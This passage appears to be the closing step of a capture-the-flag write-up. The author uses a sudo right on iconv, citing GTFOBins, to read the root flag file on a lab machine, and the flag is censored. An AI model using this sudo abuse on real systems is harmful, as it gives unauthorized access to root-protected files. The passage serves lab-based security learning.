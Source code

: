 Looks like we have `sudo` permissions for one command. Let's see if we can leverage that for privesc.

Yes we can => https://gtfobins.github.io/gtfobins/iconv/#sudo

```bash
scamsite@TechSupport:~$ sudo /usr/bin/iconv 8859_1 -t 8859_1 /root/root.txt
/usr/bin/iconv: cannot open input file `8859_1': No such file or directory
CENSORED  -

```

DONE!!
